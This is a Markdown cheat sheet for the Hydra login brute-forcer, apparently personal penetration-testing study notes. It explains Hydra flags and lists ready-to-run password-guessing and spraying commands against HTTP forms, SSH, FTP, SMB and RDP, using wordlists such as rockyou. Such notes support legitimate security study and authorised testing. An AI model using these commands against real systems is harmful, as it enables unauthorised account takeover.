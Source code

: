 # Hydra

## Resources
- <https://github.com/vanhauser-thc/thc-hydra>
- <https://www.thc.org/>
- <https://github.com/gnebbia/hydra_notes>


## Commands

`-s` PORT to specify a non-default port for the service in question.

`-V` or -vV, for verbose, makes Hydra show the username and password combinations that are being tried. This verbosity is very convenient to see the progress, especially if you are still not confident of your command-line syntax.

`-t` n where n is the number of parallel connections to the target. -t 16 will create 16 threads used to connect to the target.

`-d`, for debugging, to get more detailed information about what’s going on. The debugging output can save you much frustration; for instance, if Hydra tries to connect to a closed port and timing out, -d will reveal this right away.









### HTTP

#### POST Login

```
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"


sudo hydra <username> <wordlist> MACHINE_IP http-post-form "<path>:<login_credentials>:<invalid_response>"

hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V

```




#### GET Login
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt http-get://192.168.231.201
```














### ssh
```

hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201

hydra -l eve -P wordlist 192.168.50.214 -t 4 ssh -V

hydra -l <username> -P <full path to pass> [IP] -t 4 ssh
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://${ip} -t 4

hydra -L [USERS FILE] -P [PASSWORDS FILE] [IP] ssh -u -I
hydra -L [USERS FILE] -P [PASSWORDS FILE] ssh://[IP]



hydra -l username -P wordlist.txt server service

hydra -t 16 -l administrator -P /usr/share/wordlists/rockyou.txt -vV [IP] ssh

```














### ftp
```
hydra -l user -P passlist.txt ftp://[IP]

hydra -l mark -P /usr/share/wordlists/rockyou.txt [IP] ftp

hydra -L /usr/share/metasploit-framwork/data/wordlists/common_users.txt -P /usr/share/metasploit-framwork/data/wordlists/unix_passwords.txt [IP] ftp

hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV ftp://[IP]

```











### smb
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt [IP] smb


```












### RDP
```

# Spraying attack
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```

